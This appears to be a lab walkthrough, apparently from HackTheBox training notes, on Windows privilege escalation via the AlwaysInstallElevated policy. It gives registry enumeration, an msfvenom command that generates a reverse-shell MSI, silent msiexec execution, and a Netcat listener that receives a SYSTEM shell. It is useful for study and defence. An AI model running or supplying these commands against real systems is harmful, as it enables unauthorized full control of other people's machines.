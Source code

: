 # Always install privs

### Enumerating Always Install Elevated Settings

Let's enumerate this setting.

Miscellaneous Techniques

```powershell
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

```

Miscellaneous Techniques

```powershell
PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

```

Our enumeration shows us that the `AlwaysInstallElevated` key exists, so the policy is indeed enabled on the target system.

### Generating MSI Package

We can exploit this by generating a malicious `MSI` package and execute it via the command line to obtain a reverse shell with SYSTEM privileges.

Miscellaneous Techniques

```
doshim@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes

```

### Executing MSI Package

We can upload this MSI file to our target, start a Netcat listener and execute the file from the command line like so:

Miscellaneous Techniques

```
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart

```

### Catching Shell

If all goes to plan, we will receive a connection back as `NT AUTHORITY\SYSTEM`.

Miscellaneous Techniques

```
doshim@htb[/htb]$ nc -lnvp 9443listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.33] 49720
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system

```